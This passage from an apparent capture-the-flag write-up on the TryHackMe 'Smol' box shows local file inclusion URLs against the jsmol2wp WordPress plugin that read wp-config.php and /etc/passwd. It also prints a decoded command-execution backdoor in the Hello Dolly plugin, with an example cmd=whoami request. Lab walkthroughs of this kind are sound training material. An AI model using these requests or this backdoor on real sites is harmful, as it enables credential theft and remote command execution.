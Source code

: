 ```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

![credentials leaked](/images/THM-Smol/creds_leaked.png)


Using the same LFI vulnerability we also enumerate the users on the system.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../../../../etc/passwd
```

We identify four users: `think`, `xavi`, `diego`, and `gege`.

![users on the system](/images/THM-Smol/system_users.png)

The credentials are valid on the WordPress login page giving us access to the Dashboard.

![WordPress dashboard](/images/THM-Smol/wp_dashboard.png)

In the `Pages` section we find a page (`Webmaster Tasks!!`) which was not displayed on the blog. We can also access it by going to `http://www.smol.thm/index.php/to-do/`.

![todo page](/images/THM-Smol/todo_page.png)

The first task mentions a plugin called `Hello Dolly`, telling us to check its source code. After some research we find that the plugin file (`hello.php`) is located in `wp-content/plugins`.

![hello dolly php file](/images/THM-Smol/hello_dolly.png)

## Initial Foothold

Once again leveraging our LFI vulnerability we can see the content of the file.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

![hello dolly code](/images/THM-Smol/hello_dolly_code.png)

We find an eval function and the base64 string decodes to: `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }`. The function `hello_dolly()` seems to be a backdoor. The plugin is supposed to only show a line of the song [Hello Dolly](https://www.youtube.com/watch?v=l7N2wssse14&ab_channel=AustinCasey) on the Dashboard.

![hello dolly clyrics](/images/THM-Smol/hello_dolly_lyrics.png)

But now it also checks if the `cmd` parameter (`\143\155\x64` translates to `cmd`) exists in the query string of the HTTP request (`$_GET`). If it exists the `system` function executes the value of the `cmd` parameter as a system command on the server.

Example: `http://www.smol.thm/wp-admin/index.php?cmd=whoami` will execute the `whoami` command on the server.
